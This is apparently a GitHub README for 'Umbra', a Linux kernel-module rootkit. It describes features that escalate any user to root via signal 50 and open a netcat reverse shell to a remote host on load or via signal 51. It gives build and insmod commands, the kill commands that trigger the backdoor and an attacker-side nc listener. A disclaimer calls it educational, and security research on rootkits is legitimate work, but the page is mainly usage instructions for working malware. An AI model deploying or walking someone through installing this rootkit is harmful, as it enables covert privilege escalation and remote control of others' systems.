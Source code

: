 ![GitHub release (latest by date)](https://img.shields.io/github/v/release/marsan27/Umbra)
![Maintainability](https://img.shields.io/static/v1?label=maintainability&message=C&color=green)
![GitHub code size in bytes](https://img.shields.io/github/languages/code-size/marsan27/Umbra)
![GitHub last commit](https://img.shields.io/github/last-commit/marsan27/Umbra)

# Umbra

Umbra (/ˈʌmbrə/) is an experimental LKM rootkit for kernels 4.x and 5.x (up to 5.7) which can be used to spawn a netcat reverse shells to remote hosts and more.

The rootkit is still under development, although the features listed below are already fully operational.

Note: This rootkit has been developed and tested using kernel 5.4.0 and Ubuntu 18.04.

## Features
* Privilege escalation by sending signal 50
* Start netcat reverse shell on module load.
* Spawn netcat reverse shell to chosen remote host by sending signal 51.

More functionalities will come in later updates.

## Disclaimer
This rookit is **purely for educational purposes**. I am not responsible for any damage resulting from its unintended use.

Also bear in mind that Umbra does not incorporate any rootkit hiding or protection mechanisms yet.

**IMPORTANT:** If you are going to test this rootkit in your own machine, I *strongly recommend* to use a VM. 

## Build and install
Remember that you should have a 4.x or 5.x kernel available.
1. Download your kernel header files
```sh
apt install linux-headers-$(uname -r)
```
2.Configure your include path to cover the kernel header directory (usually under /usr/src). If you are using vscode, you can check ```.vscode/c_cpp_properties.json``` for an example on which directories to include.

3. Clone the project
```
git clone https://github.com/marsan27/Umbra.git
cd Umbra
```
4. Build Umbra
```
make
```
1. Load Umbra in the kernel
```
sudo insmod ./umbra.ko
```

## Unloading Umbra
```
sudo rmmod umbra
```

## Usage
### Change current user privileges to root
* Send signal 50 to any PID.
```
kill -50 1
```

### Start reverse netcat shell to IP:PORT
* Set your desired IP and port in CONFIG.H before building the rootkit. By default 127.0.0.1:5888

* Start listening at the remote host.
```
nc -lvp 5888
```
* Send signal 51 to any PID. Umbra will catch it and start the shell.
```
kill -51 1
```
<img src="images/kill51screenshot.png" width = 800/>

Note: Umbra also tries to start the reverse shell on load.


## References
The development of this rootkit involved a substantial amount of research about LKMs and rootkit techniques. The following is an incomplete list of the resources I used:
How to create LKMs:
* https://tldp.org/LDP/lkmpg/2.6/html/lkmpg.html

Linux syscall reference:
* https://syscalls64.paolostivanin.com/

Some rootkit references:
* https://xcellerator.github.io/posts/
* https://web.archive.org/web/20160620231623/http://big-daddy.fr/repository/Documentation/Hacking/Security/Malware/Rootkits/writing-rootkit.txt
* https://github.com/f0rb1dd3n/Reptile

## License
This project is licensed under the GPLv2 license. See [LICENSE]([LICENSE](https://github.com/marsan27/Umbra/blob/master/LICENSE)
